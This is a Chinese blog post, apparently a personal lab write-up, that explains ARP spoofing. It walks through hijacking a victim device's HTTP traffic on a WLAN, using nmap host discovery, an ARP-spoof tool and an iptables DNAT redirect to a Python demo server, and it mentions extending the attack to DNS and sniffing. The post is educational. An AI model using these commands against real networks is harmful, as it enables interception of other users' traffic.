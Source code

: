 ```yaml
---
layout: post
title: "ARP spoofing"
subtitle: "通过 ARP 欺骗劫持 HTTP 流量"
date: 2019-02-15 17:48
tags: 
    - TCP/IP
    - Linux
---
```


主机上线到一个网络之后会获得至少一个 IP 地址（比如 DHCP 或静态地址）。IP 地址能反映网络的拓扑结构，但 IP 地址并不能唯一地标识一个网络接口；能够唯一标识一个网卡的是在制造出厂时写入的 6 字节的 MAC 地址。一个 IP 数据包在到达另一个接口之前，需要知道目的地 IP 地址的 MAC 地址。ARP 就是一个将 IP 地址解析为 MAC 地址的协议，而一个基于以太网之上的 ARP 数据包结构如下

![Internet Protocol(IPv4) over Ethernet ARP packet]({{ "img/arp-spoofing-packet.png" | absolute_url }})

由于 ARP 的使用者不检查 ARP 数据包的真实性，ARP 的请求和应答容易受到第三者的干扰，特别是在一些共享介质的链路（比如无线局域网）。在多数情况下，攻击者将自身的 MAC 地址和网关的 IP 写入 ARP 应答，向受害者发送这个虚假的 ARP 应答，把自己伪装成网关并拦截了受害者的数据包。这种网络攻击被成为 ARP 欺骗(ARP spoofing)，也是一种主动嗅探(active sniffing)，对应被动嗅探(passive sniffing, 比如在共享介质链路中将网卡置于混杂模式)。

下文记录一个在无线局域网中实施 ARP 攻击并劫持 HTTP 流量到服务器 demo 的过程。[这个发送 ARP 应答的程序](https://github.com/kennico/arp-spoofing) 使用到 libpcap 而且直接从系统的 ARP 缓存获取 IP 地址对应的 MAC 地址。

- OS: Ubuntu 16.04 x64
- Requirement: libpcap, nmap，python 3.5

首先通过 `ipconfig -a` 决定要用来实施攻击的网卡名称，以及对应的网段

```
kenny@kenny-X450LD:~$ ifconfig
wlan0     Link encap:Ethernet  HWaddr 11:22:33:44:55:66  
          inet addr:192.168.43.24  Bcast:192.168.43.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:24 errors:0 dropped:244 overruns:0 frame:0
          TX packets:74 errors:0 dropped:1 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:7509332 (7.5 MB)  TX bytes:1491944 (1.4 MB)
```

在这里我用的是 `wlan0`，网段为 192.168.43.24/24。然后使用
`nmap` 发现局域网的其他主机。选项 `-sn` 表示不进行端口扫描以节省时间：

```
kenny@kenny-X450LD:~$ sudo nmap -sn 192.168.43.24/24

Starting Nmap 7.01 ( https://nmap.org ) at 2019-02-15 20:55 CST
Nmap scan report for 192.168.43.1
Host is up (0.12s latency).
MAC Address: 22:39:56:76:90:6B (Unknown)
Nmap scan report for Kennico (192.168.43.79)
Host is up (0.075s latency).
MAC Address: 24:1B:7A:10:14:FC (Unknown)
Nmap scan report for kenny-X450LD (192.168.43.24)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 11.26 seconds
```

如果不使用 root 权限， `nmap` 会显示设备的名称而不是 MAC 地址。接下来选择 192.168.43.79(24:1B:7A:10:14:FC) 作为受害者。

由于我实现的程序使用系统 ARP 缓存，需要先添加这个记录到 ARP 缓存（同样需要 root 权限）：

```
kenny@kenny-X450LD:~$ sudo arp -s 192.168.43.79 24:1B:7A:10:14:FC
kenny@kenny-X450LD:~$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.43.79            ether   24:1b:7a:10:14:fc   CM                    wlan0
192.168.43.1             ether   22:39:56:76:90:6b   C                     wlan0
```

接下来运行发送 ARP 应答的程序。libpcap 的 `pcap_open_live` 函数需要 root 权限：

```
kenny@kenny-X450LD:~$ sudo ./arp-spoof -e wlan0 192.168.43.79
DEBUG: get_gateway_ip - Command: route -n | grep -P '^0\.0\.0\.0.+UG.+wlx502b73dc543f$'
DEBUG: Command: arp -n | awk '$0 !~ "incomplete"' | grep -oP '(\w{2}:){5}\w{2}|((\d+\.){3}\d+)'
DEBUG: device "wlan0" opened successfully.
DEBUG: ip=192.168.43.79 secs=10 pkts=-1 twoway=0
Attacking 192.168.43.79(24:1B:7A:10:14:FC)...
```

选项 `-e` 指定网卡；`-n` 为两次发送的时间间隔，以秒为单位；`-c` 表示发送应答的数目，缺省则一直循环。接着拉起一个 HTTP 服务器 demo：

```python
#
# python3 http_server.py
#
from http.server import SimpleHTTPRequestHandler
from socketserver import ThreadingTCPServer

page = """
<html>
<header><title>This is title</title></header>
<body>
Hello world
</body>
</html>
"""

class demoHttpRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Connection', 'close')
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(page.encode('utf-8'))

if __name__ == '__main__':
    try:
        httpd = ThreadingTCPServer(('127.0.0.1', 8080), demoHttpRequestHandler)
        httpd.serve_forever()
    except KeyboardInterrupt:
        print('httpd exits.')
```

服务器监听 127.0.0.1:8080。因为服务器 demo 监听 127.0.0.1，需要配置系统以允许转发所谓的“火星数据包([Martian packet](https://en.wikipedia.org/wiki/Martian_packet), 数据包的发送者 IP 显示这个数据包应该从另外一个接口得到)”。192.168.43.24是接口 wlan0 的IP的地址，而 127.0.0.1 是属于 lo 的 IP 地址

```sh
sudo sysctl -w net.ipv4.conf.wlan0.route_localnet=1
sudo sysctl -w net.ipv4.conf.all.route_localnet=1
```

接下来是最重要的一步：将拦截到的 HTTP 流量转发到服务器 demo:

```shell
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp -s 192.168.43.79 --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```
这里的 `iptables` 追加一个规则到内核的 NAT 表(`-t nat`) 的 PREROUTING 匹配链。PREROUTING 表示在选择路由之前检查满足的条件的数据包：

- 来自 wlan0 (`-i`)
- 协议为 TCP (`-p`)
- 发送者为 192.168.43.79 (`-s`)
- 接收者端口为 80

一旦匹配成功就采取行动(`-j`)，将数据包转发到 127.0.0.1:8080(`-DNAT`表示更改接收者的地址)。使用 `iptables` 还有一个好处，一些原本需要绑定到低端口(<1024)服务器，现在可以绑定到高端口，因此服务器本身 **不需要 root 权限** 。(之前花了两周时间最后也没有实现类似的端口转发功能，到头来一个下午查的一个命令就解决问题了Orz)

```
kenny@kenny-X450LD:~$ sudo iptables -t nat -L -v
Chain PREROUTING (policy ACCEPT 657 packets, 42591 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    5   320 DNAT       tcp  --  wlan0  any     192.168.43.79        anywhere             tcp dpt:http to:127.0.0.1:8080
...
```

上边列出了已有的规则。下图为受害者设备用 chrome 访问 8.8.8.8 的截图（众所周知 8.8.8.8 是谷歌公共 DNS），可见 HTML 页面即为脚本里的字符串内容：

![HTTP]({{ "img/arp-spoofing-http.png" | absolute_url }})

上图中的设备直接访问给定 IP 的 80 端口。如果要访问一个域名，则还需要用 `iptables` 转发来自 53 端口 DNS 请求；除此之外，如果要实现嗅探 HTTP/HTTPS 流量，就应该拉起来透明代理而不是那个 HTTP demo，然后打开 wireshark 就可以很方便地进行抓包（下图并未使用透明代理）。

![Wireshark]({{ "img/arp-spoofing-wireshark.png" | absolute_url }})